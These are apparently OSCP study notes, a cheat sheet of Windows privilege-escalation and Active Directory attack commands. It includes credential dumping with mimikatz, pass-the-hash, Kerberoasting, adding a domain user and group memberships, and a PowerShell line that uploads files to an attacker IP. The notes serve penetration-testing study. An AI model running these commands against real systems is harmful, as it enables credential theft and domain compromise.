 # Windows PrivEsc 

**Step 1** 

Review PrivEsc Mind map

https://github.com/hxhBrofessor/PrivEsc-MindMap/blob/main/windows-mindMap.JPG 

**Step 2** 

Look around the file system!!! 

Check installed programs in `C:\Program Files` or `C:\Program Files (x86)`

**Step 3** 

Determine architecure
`systeminfo` 
or 
`$Env:PROCESSOR_ARCHITECTURE` 

*AMD64 for 64-bit and x86 for 32-bit*

**Step 4**
Run [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

**Step 5**
Run [adPEAS](https://github.com/61106960/adPEAS)

**Step 6**
Begin manual review if still no leads 

## Active Directory Methodology 
https://s0cm0nkey.gitbook.io/s0cm0nkeys-security-reference-guide/red-offensive/testing-methodology/active-directory

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

### Mind set notes for OSCP
What users are on the domain? net users /domain
What groups are configured on the domain? net group /domain
Who are the administrators (domain admins?) net group "Domain Admins"
What SPNs are configured on the host? GetSPNs.py 

Kerberoasting - List out the SPNs on the domain and if there are any that are specifically calling to another host/port within the domain, could be kerberoastable.

Kerberoasting - List out the SPNs on the domain and if there are any that are specifically calling to another host/port within the domain, could be kerberoastable.

Credentials in Memory - run mimikatz and see if any of the accounts you enumerated at first show up. Try cracking the NTLM hash, or passing the hash through something like psexec.py or evil-winrm.

## Basics 

[Manual Enum Guide](https://fuzzysecurity.com/tutorials/16.html)

[Password Attacks](https://medium.com/@kuwaitison/local-password-attack-and-credentials-theft-for-windows-linux-5764a1a25363)

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

`whoami /all` 

`whoami /groups` 

`whoami /priv` 

`net users` 

`net localgroup`

`netstat -ano` 

`dsacls "DC=htb,DC=local"` 

## Scheduled Tasks 

### generate file 
`schtasks /query /fo LIST /v > scheduled-task.txt`

### transfer off Windows
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.49.192/upload.php', 'scheduled-task.txt')` 

### Grep results on Kali
`grep -i "SYSTEM" scheduled-task.txt -B 5 -A 5` 

## Services 

`wmic service list brief` 

`tasklist /v /fi "username eq system` 

`sc query state= all | findstr "SERVICE_NAME:" >> Services.txt` 

`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` 

## AlwaysInstallElevated 
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` 

## AD Commands to run

`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

(Pass the Hash)[https://cesidt.medium.com/pass-the-hash-techniques-92e46f28af89]

### Users
`net user`
`net user hacker password /add /domain` 

### Groups 
`net group "group name"`

`net group "Exchange Windows Permissions" /add account_name` 

## Passwords
### powershell recursive grep like search
`ls -R -Hidden -EA SilentlyContinue | select-string <search string>`

### Get password hashes from mimi. 
`lsadump:​:lsa /patch`

## Metasploit module for exploit suggestions
`post/multi/recon/local_exploit_suggester` 

## Tools to run
[WinPeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230101)

[Watson for kernel exploit suggestions](https://github.com/rasta-mouse/Watson, https://0xdf.gitlab.io/2019/03/05/htb-devel.html)

[Bloodhound](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)

[Powerview](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview)

[Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

[Sherlock](https://github.com/rasta-mouse/Sherlock)

[How to use Sherlock](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

[JAWS][(ttps://github.com/411Hall/JAWS)

